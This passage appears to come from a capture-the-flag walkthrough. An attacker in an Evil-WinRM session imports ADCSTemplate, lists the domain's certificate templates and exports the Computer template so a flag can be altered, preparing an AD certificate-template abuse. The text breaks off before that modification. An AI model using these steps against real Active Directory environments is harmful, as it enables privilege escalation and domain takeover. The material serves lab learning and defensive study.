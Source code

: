 
    *Evil-WinRM* PS C:\programdata> import-module .\ADCSTemplate.psm1



I'll list the current templates:



    *Evil-WinRM* PS C:\programdata> get-adcstemplate | fl displayname

    displayname : User
    displayname : User Signature Only
    displayname : Smartcard User
    displayname : Authenticated Session
    displayname : Smartcard Logon
    displayname : Basic EFS
    displayname : Administrator
    displayname : EFS Recovery Agent
    displayname : Code Signing
    displayname : Trust List Signing
    displayname : Enrollment Agent
    displayname : Exchange Enrollment Agent (Offline request)
    displayname : Enrollment Agent (Computer)
    displayname : Computer
    displayname : Domain Controller
    displayname : Web Server
    displayname : Root Certification Authority
    displayname : Subordinate Certification Authority
    displayname : IPSec
    displayname : IPSec (Offline request)
    displayname : Router (Offline request)
    displayname : CEP Encryption
    displayname : Exchange User
    displayname : Exchange Signature Only
    displayname : Cross Certification Authority
    displayname : CA Exchange
    displayname : Key Recovery Agent
    displayname : Domain Controller Authentication
    displayname : Directory Email Replication
    displayname : Workstation Authentication
    displayname : RAS and IAS Server
    displayname : OCSP Response Signing
    displayname : Kerberos Authentication
    displayname : Coder-WebServer  



There's a bunch, but Computer seems like the one to copy from. I'll
export it to a JSON file:



    *Evil-WinRM* PS C:\programdata> Export-ADCSTemplate -displayName Computer > computer.json



Now I can read that back in, and change that flag:
